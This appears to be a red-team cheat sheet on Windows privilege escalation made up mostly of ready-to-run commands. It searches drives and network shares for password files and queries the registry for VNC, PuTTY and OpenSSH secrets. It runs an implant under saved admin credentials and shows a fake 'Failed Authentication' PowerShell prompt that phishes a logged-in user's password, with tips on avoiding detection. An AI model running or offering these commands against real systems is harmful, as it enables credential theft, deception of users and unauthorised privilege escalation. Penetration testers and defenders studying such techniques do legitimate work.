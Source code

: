 # Windows Privilege Escalation Techniques

## Searching for sensitive filles

Start by searching for sensitive files on the local C drive. After that search any reachable network shares. [SharpShares](https://github.com/mitchmoser/SharpShares) can be used to search for open network shares.

```
dir /b /a /s c:\ > c-dirs.txt
```

```
SharpShares.exe /ldap:all /filter:sysvol,netlogon,ipc$,print$
```

Either extract the c-dirs.txt file onto your system and use your tool/text editor of choice to search for sensitive file. If you prefer to stay on the windows system and search through the file, use `type` and `findstr` to search for sensitive string.

```
type c-dirs.txt | findstr /i passw
```

## Registry Queries
Passwords for putty, vnc, and OpenSSH keys can be stored in the registry.

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\OpenSSH\Agent\Keys"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

```
Seatbelt.exe WindowsAutoLogon
Seatbelt.exe reg
```

## Credential Manager

Credentials stored in the windows credential manager can be abused to run commands or launch payloads as another users.

**List stored credentials**
```
cmdkey /list
```

**User a stored credential**
```
runas /savecred /user:admin implant.exe
```

```
Seatbelt.exe CredEnum
```

## Asking for Credentials

Only a viable attack path if there's a user logged into the system. This can also burn you if the user gets suspicious.

**Request password for current user, using environment variable for the user:**
```powershell
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

**Request password for current user, using hard-coded username (admin in this example):**
```powershell
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

## Unquoted Service Paths

**With WMIC:**
wmic can trigger alerts in some environments.
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

